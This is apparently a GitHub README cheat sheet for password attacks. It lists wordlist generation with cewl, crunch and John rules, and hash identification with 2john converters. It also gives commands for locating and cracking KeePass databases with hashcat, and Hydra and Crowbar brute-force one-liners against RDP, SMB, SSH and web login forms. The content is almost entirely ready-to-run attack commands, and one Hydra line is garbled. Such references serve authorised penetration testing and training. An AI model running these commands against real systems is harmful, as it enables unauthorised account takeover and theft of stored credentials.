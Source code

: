 # Password-Attcak-Lists

# Password Attacks

## Generating Wordlists

### Cewl - Custom Word List generator

- > generating wordlist based on information from a website

```
cewl <domain> -w wordlist.txt

```

### Crunch - Wordlist Generator

- > Character Translation

`@ = Lower case alpha characters`

`, = Upper case alpha characters`

`% = Numeric characters`

`^ = Special characters including space`

- > Usage

```
./crunch <min-len> <max-len> [charset]

```

- > basic examples

```
crunch 9 9 -t ,@@@@^%%%

```

```
crunch 4 6 0123456789abcdef -o wordlist.txt

```

### John Mutation

- > Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists

-> basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`

```
john --wordlist=wordlist.txt --rules --stdout > mutated.txt

```

https://www.openwall.com/john/doc/RULES.shtml

## Cracking Password

### Identifying Hash Type

```
hashid <hash>

```

https://www.tunnelsup.com/hash-analyzer/https://hashes.com/en/tools/hash_identifier

### Hashing different file types for cracking with 2john

- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c)

### Password Manager

- > Search KeePass database files

```
Get-ChildItem -Path C:\\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

```

- > Hashing the .kdbx file

```
keepass2john Database.kdbx > keepass.hash

```

- > Finding Hash-Mode ID of hashcat

```
hashcat --help | grep -i "KeePass"

```

- > Cracking

```
hashcat -m 13400 keepass.hash

```

## Brute Force Attacks

### RDP Brute Force - Hydra

```
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>

```

### RDP Brute Force - Crowbar

```
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1

```

### SMB Brute Force - Hydra

```
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb

```

### SSH Brute Force - Hydra

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>

```

### HTTP POST Login Form Brute Force - Hydra

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f

```

### HTTP GET Login Form Brute Force - Hydra

```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login

```
